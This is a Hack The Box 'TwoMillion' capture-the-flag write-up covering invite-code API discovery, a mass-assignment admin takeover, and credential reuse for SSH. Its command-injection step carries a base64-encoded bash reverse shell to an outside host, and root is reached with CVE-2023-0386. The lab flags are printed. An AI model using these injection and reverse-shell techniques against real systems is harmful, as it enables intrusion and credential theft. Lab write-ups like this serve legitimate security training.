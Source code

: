 # Hack The Box: TwoMillion

### Challenge Name: TwoMillion
**Difficulty:** Easy

![image](https://github.com/user-attachments/assets/b56b182a-6a29-448d-adab-c9879eeffb2a)



## Writeup:

To start, I ran nmap on the ip address to see what ports were exposed:

`nmap 10.10.11.221`

I saw that 2 ports were opened `80 and 22`

![image](https://github.com/user-attachments/assets/83ba8af9-237d-4148-a9d9-4685d5453e97)

After going to the website, I found a hint that the developers gave away (<b> exploit the invite proccess</b>)

![image](https://github.com/user-attachments/assets/ca60947b-a7f8-4c6d-b36e-b3c380b70de6)

After looking at the resources loaded for the /invite talk, I saw an interesting file called `inviteapi.min.js`

![image](https://github.com/user-attachments/assets/6a8230e3-f3cc-4ed9-84bc-1d84fbc8d4aa)

The .js file seemed to be obfuscated, so I used `https://de4js.kshift.me/` to decode the actual code.
The decoded result is:

```
function verifyInviteCode(code) {
    var formData = {
        "code": code
    };
    $.ajax({
        type: "POST",
        dataType: "json",
        data: formData,
        url: '/api/v1/invite/verify',
        success: function(response) {
            console.log(response)
        },
        error: function(response) {
            console.log(response)
        }
    })
}

function makeInviteCode() {
    $.ajax({
        type: "POST",
        dataType: "json",
        url: '/api/v1/invite/how/to/generate',
        success: function(response) {
            console.log(response)
        },
        error: function(response) {
            console.log(response)
        }
    })
}
```
The important part is that the `makeInviteCode()` api has been leaked!! We can use this endpoint to create an invite code for ourselves. 

After running the function, I got a ROT13 encrypted string:

`Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb /ncv/i1/vaivgr/trarengr` 

which decodes to 

`In order to generate the invite code, make a POST request to /api/v1/invite/generate`

![image](https://github.com/user-attachments/assets/4c3976bf-d5af-41d5-b118-6e9a1ec98780)


So I followed the instructions and made a `POST` request to `/api/v1/invite/generate`.

Great!! I was able to get the code `T1dKNVUtOTlUTkotSUJLMFEtVTM1REk=` 

which is Base64 Encoded for 

`OWJ5U-99TNJ-IBK0Q-U35DI`

With this code, I was able to complete the signup process.

Now that I logged in, I played around more with the APIs, and I found out `http://2million.htb/api/v1` gave me a map of all the V1 API call.

![image](https://github.com/user-attachments/assets/194727d1-4964-430b-9a34-086c8b20ba65)

From the APIs, I was interested in the `/api/v1/admin/settings/update` enpoint as this allows us to update the user settings.

After resending it, I saw that message what warned me of `invalid content type`.

![image](https://github.com/user-attachments/assets/d5d80e7a-60cb-4238-8f92-ef7051b56613)

To fix this, I added `Content-Type: application/json` in my HTTP header.

![image](https://github.com/user-attachments/assets/851d4f2e-b254-411d-9b7f-16f0b360a3ac)

Now, I get an error saying there is no email parameter, so I added `{'email': 'temp@gmail.com'}` into my payload.

![image](https://github.com/user-attachments/assets/25fbd10c-d5bd-4d84-b204-7b16a4e29eb0)


Seems like I have to change my payload again to: `{
"email": "temp@gmail.com", "is_admin" : 1
}`

GREAT! This time it worked at it seemed to have changed my account to an admin account.

![image](https://github.com/user-attachments/assets/04e4ce53-bbd7-4b78-819a-d489537c2f73)


With this, I now decide to test the `/api/v1/admin/vpn/generate` enpoint. I fill out all of the requirements and I was able to generate the VPN.

![image](https://github.com/user-attachments/assets/368bbf35-79ae-4f88-9cb7-cb02d2ff03cc)

After some playing around, I found out that it was vulnerable to command injection. I used this to create a reverse shell.


```
{
"username": "hackerman;echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42MC85OTk5IDA+JjE= | base64 -d | bash;"
}
```

![image](https://github.com/user-attachments/assets/103888ad-43b1-41aa-a677-ef78792f3d91)

After some digging, I found a .env file which had the DB username and password

![image](https://github.com/user-attachments/assets/bd3b6ac7-2ef9-46f1-b984-5d31ce86230a)


With these credentials I was able to SSH into the machine. I was able to get the user flag (`ba25a30c7e0bcd542c1274e03985dc6a`)...
But this is not a root account unfortunately :(

![image](https://github.com/user-attachments/assets/c940497c-a205-48ce-a35e-291c81fd0113)


From looking at the OS, it is running `22.04.2 LTS (Jammy Jellyfish)`. I looked up Privilege Escalation scripts for this version and found `CVE-2023-0386`

`https://securitylabs.datadoghq.com/articles/overlayfs-cve-2023-0386/`

After Executing the exploit I was able to get Root and the flag was `25b40afff5c53db702668299add6f306`

![image](https://github.com/user-attachments/assets/23bc035c-4afd-4664-8b4e-0f3f56507399)
